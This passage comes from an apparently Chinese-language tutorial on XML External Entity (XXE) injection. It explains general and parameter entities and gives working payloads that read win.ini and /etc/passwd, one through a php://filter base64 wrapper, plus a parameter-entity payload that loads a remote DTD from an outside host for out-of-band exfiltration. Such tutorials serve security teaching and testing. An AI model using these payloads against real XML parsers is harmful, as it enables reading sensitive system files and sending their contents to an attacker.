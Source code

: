 我们上面已经将实体分成了两个派别（内部实体和外部外部），但是实际上从另一个角度看，实体也可以分成两个派别（通用实体和参数实体）

**通用实体**

用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE updateProfile [
	<!ENTITY file SYSTEM "file:///c:/windows/win.ini">
]>
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>  
    ...
</updateProfile>
```
**参数实体：**

(1) 使用 % 实体名(这里面空格不能少) 在 DTD 中定义，并且只能在 DTD 中使用 % 实体名; 引用

(2) 只有在 DTD 文件中，参数实体的声明才能引用其他实体

(3) 和通用实体一样，参数实体也可以外部引用
```xml
<?xml version="1.0"?>
<!DOCTYPE ANY[
	<!ENTITY % file SYSTEM "file:///C:/windows/win.ini">
	<!ENTITY % remote SYSTEM "http://192.168.100.1/test.xml">
	%remote; %all; <!--  只有在 DTD 文件中，参数实体的声明才能引用其他实体 -->
]>
<root>&send;</root>
```
### **0x004 我们能做什么**

**实验一：有回显读本地敏感文件(Normal XXE)**

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200222114016265.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)

• **Payload**
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
        <!ENTITY xxe SYSTEM "file:///etc/passwd" >
]>
<root> <name>&xxe;</name> </root>
```
但是因为这个文件没有什么特殊符号，于是我们读取的时候可以说是相当的顺利, 那么有特殊符号的文件呢?

• **对于PHP来说，可以使用伪协议返回base64字符串**
```xml
<?xml version="1.0" encoding="utf-8"?>
	<!DOCTYPE xxe [
	<!ELEMENT name ANY >
          <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd" >
]>
 <root> <name>&xxe;</name> </root>
 ```
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200222114227237.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2RhaWRlMjAxMg==,size_16,color_FFFFFF,t_70)
